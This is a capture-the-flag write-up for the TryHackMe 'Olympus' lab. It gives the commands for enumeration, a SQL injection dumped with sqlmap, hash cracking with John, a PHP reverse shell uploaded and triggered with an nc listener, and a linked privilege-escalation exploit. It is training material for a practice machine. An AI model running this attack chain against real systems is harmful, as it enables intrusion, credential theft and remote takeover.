# [TryHackMe:Olympus](https://tryhackme.com/room/olympusroom)
## Enumeration
Start port scanning with *Nmap*
```bash
sudo nmap -Pn -T4 <target>
```
**Result**
```
Nmap scan report for 10.113.128.94                                                                                                     
Host is up (0.081s latency).                                                                                                           
Not shown: 998 closed tcp ports (reset)                                                                                                
PORT   STATE SERVICE                                                                                                                   
22/tcp open  ssh                                                                                                                       
80/tcp open  http 
```
Moving to content discovery for the HTTP server, perform directory enumeration.
```bash
gobuster dir -w ~/installed-tools/SecLists/Discovery/Web-Content/big.txt -u http://olympus.thm/ -t 64
```
**Result**



Inside the `~/webmaster` directory I found these two fields.



> ***Note: According to the challenge, brute-forcing is prohibited.***

I entered this SQL query `'` into the search bar and it returned this result:



The SQL query looks like this:

```sql
SELECT * FROM posts WHERE post_title LIKE '%USER_INPUT%' AND post_status='publish';
```


This website is vulnerable to SQLi. I will use *sqlmap* to automate the SQLi; first, we should capture the search POST request. I will use Burp Suite.



> Add `*` beside search (`search=*`) to perform a custom injection.

After that, use *sqlmap*:

```bash
sqlmap -r searchREQ.txt -risk 3 -level 5
```
**Result**



We need to dump the tables and their content too:
```bash
sqlmap -r sqliReq.txt -dump -D olympus --banner
```
### First Flag



In this DB table content I found these hashed passwords:



I will use *John the Ripper* to crack these hashes with the *rockyou* wordlist:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwordHashs.txt
```
**Result**



## Access CMS Admin Panel
I found only the first password for the `prometheus` user. Use these credentials to log into the website's login form.



We successfully logged into the admin panel.




I learned that there is another subdomain called `chat.olympus.thm`, so I will investigate it.

> Do not forget to add `chat.olympus.thm` to your `hosts` file.



We can log in with the credentials we found above, but first I will do some enumeration.
```bash
gobuster dir -w ~/installed-tools/SecLists/Discovery/Web-Content/big.txt -u "http://chat.olympus.thm/" -x $(cat ~/installed-tools/SecLists/Fuzzing/extensions-most-common.fuzz.txt) -t 64
```
**Result**



After logging into the chat portal, I found an upload function. Thanks to my enumeration, I found the `/uploads` directory and it clicked! I tried to upload a test file with a `.php` extension and found no client-side filters.



Also, due to our SQLi, we found a table called `chats`. We can upload a file and use SQLi to retrieve its name.
I uploaded the [Pentest Monkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell), then dumped the chat table.
> Do not forget to use `--fresh-queries` with the *sqlmap* command to bypass the *sqlmap* cache. If you miss this flag, you will retrieve the same chat table from before the file upload.

```bash
sqlmap -r sqliReq.txt -D olympus -T chats --dump --fresh-queries
```
**Result**



Now I have to establish a listener and query this file from `uploads/`:
```bash
# Listener
nc -lnvp 8888
# Query the file
curl "http://chat.olympus.thm/uploads/24bc0bd45745f09fcef8b76e01a75bb6.php"
```

## Initial Access



## User Flag



## Enumeration Again
Inside `/home/zeus` I found this message from Prometheus:



Using [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20260528-82c8c3b6) for further enumeration, we find that the target machine is vulnerable to the [copyfail](https://copy.fail/) vulnerability. I used this [payload](https://github.com/slaptat/copyFail30/blob/main/copyFail30.py) and successfully achieved privilege escalation.

## Privilege Escalation



## Root Flag



## Bonus Flag
The challenge hints taught me that the flag starts with `flag{`, so I will use grep to search all files for text starting with `flag{`:
```bash
grep -r "flag*" /
```


